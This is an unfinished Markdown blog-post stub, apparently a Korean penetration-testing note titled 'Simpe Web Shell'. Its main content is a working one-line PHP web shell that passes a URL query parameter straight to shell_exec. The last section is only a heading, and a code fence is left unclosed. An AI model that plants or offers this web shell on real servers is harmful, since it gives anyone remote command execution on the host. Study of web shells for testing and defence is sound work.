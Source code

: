 ```yaml
---
title: Simpe Web Shell
date: YYYY-MM-DD HH:MM:SS +09:00
categories: [모의해킹]
tags: [WEB]
---
```


### 웹쉘 테스트


### 한줄 웹쉘

```<?php echo shell_exec($_GET['cmd']); ?>

### 날짜 출력 웹쉘
